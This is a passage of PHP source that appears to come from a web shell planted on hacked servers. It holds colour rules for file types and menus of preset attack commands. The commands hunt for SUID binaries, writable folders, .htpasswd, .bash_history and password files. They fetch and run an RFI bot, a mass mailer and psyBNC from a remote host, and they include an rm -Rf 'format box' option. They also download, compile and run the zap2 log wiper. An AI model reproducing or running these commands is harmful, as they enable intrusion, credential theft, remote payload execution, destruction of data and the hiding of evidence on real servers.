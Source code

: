   array("\.php3$",1,"&lt;font color=#00FF00&gt;","&lt;/font&gt;"),
  array("\.php4$",1,"&lt;font color=#00FF00&gt;","&lt;/font&gt;"),
  array("\.jpg$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.jpeg$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.JPG$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.JPEG$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.ico$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.gif$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.png$",1,"&lt;font color=#00FFFF&gt;","&lt;/font&gt;"),
  array("\.htm$",1,"&lt;font color=#00CCFF&gt;","&lt;/font&gt;"),
  array("\.html$",1,"&lt;font color=#00CCFF&gt;","&lt;/font&gt;"),
  array("\.txt$",1,"&lt;font color=#C0C0C0&gt;","&lt;/font&gt;")
);
## QUICK COMMANDS ##
if (!$win) {
  $cmdaliases = array(
    array("", "ls -al"),
    array("Find all suid files", "find / -type f -perm -04000 -ls"),
    array("Find suid files in current dir", "find . -type f -perm -04000 -ls"),
    array("Find all sgid files", "find / -type f -perm -02000 -ls"),
    array("Find sgid files in current dir", "find . -type f -perm -02000 -ls"),
    array("Find config.inc.php files", "find / -type f -name config.inc.php"),
    array("Find config* files", "find / -type f -name \"config*\""),
    array("Find config* files in current dir", "find . -type f -name \"config*\""),
    array("Find all writable folders and files", "find / -perm -2 -ls"),
    array("Find all writable folders and files in current dir", "find . -perm -2 -ls"),
    array("Find all writable folders", "find / -type d -perm -2 -ls"),
    array("Find all writable folders in current dir", "find . -type d -perm -2 -ls"),
    array("Find all service.pwd files", "find / -type f -name service.pwd"),
    array("Find service.pwd files in current dir", "find . -type f -name service.pwd"),
    array("Find all .htpasswd files", "find / -type f -name .htpasswd"),
    array("Find .htpasswd files in current dir", "find . -type f -name .htpasswd"),
    array("Find all .bash_history files", "find / -type f -name .bash_history"),
    array("Find .bash_history files in current dir", "find . -type f -name .bash_history"),
    array("Find all .fetchmailrc files", "find / -type f -name .fetchmailrc"),
    array("Find .fetchmailrc files in current dir", "find . -type f -name .fetchmailrc"),
    array("List file attributes on a Linux second extended file system", "lsattr -va"),
    array("Show opened ports", "netstat -an | grep -i listen")
  );
  $cmdaliases2 = array(
    array("wget & extract Rfi-Bot","wget ".$sh_mainurl."ssess_0296317ca2b10940f6c11c59805b4dde;perl ssess_0296317ca2b10940f6c11c59805b4dde"),
    array("wget & extract Mass Mailer","wget ".$sh_mainurl."libyex.php"),
    array("wget & extract psyBNC","wget ".$sh_mainurl."psy.tar.gz;tar -zxf fx.tgz;cd .psy;./config 50000;./fuck;./run"),
    array("-----",""),
    array("Logged in users","w"),
    array("Last to connect","lastlog"),
    array("Find Suid bins","find /bin /usr/bin /usr/local/bin /sbin /usr/sbin /usr/local/sbin -perm -4000 2&gt; /dev/null"),
    array("User Without Password","cut -d: -f1,2,3 /etc/passwd | grep ::"),
    array("Can write in /etc/?","find /etc/ -type f -perm -o+w 2&gt; /dev/null"),
    array("Downloaders?","which wget curl w3m lynx fetch lwp-download"),
    array("CPU Info","cat /proc/version /proc/cpuinfo"),
    array("Is gcc installed ?","locate gcc"),
    array("Format box (DANGEROUS)","rm -Rf"),
    array("-----",""),
    array("wget WIPELOGS PT1","wget http://www.packetstormsecurity.org/UNIX/penetration/log-wipers/zap2.c"),
    array("gcc WIPELOGS PT2","gcc zap2.c -o zap2"),
    array("Run WIPELOGS PT3","./zap2"),
    array("-----",""),